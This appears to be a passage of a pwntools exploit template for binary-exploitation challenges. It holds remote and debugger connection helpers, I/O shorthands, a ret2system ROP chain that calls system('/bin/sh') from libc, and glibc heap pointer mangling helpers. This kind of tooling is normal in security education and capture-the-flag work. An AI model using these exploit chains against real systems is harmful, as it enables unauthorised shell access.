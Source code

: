```python
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=True)

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-pwndbg
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
def ret2system():
    rop = ROP(libc)
    rop.raw(rop.ret.address)
    rop.system(next(libc.search(b'/bin/sh')))
    return rop.chain()

# Heap Protection
def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

def demangle(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

```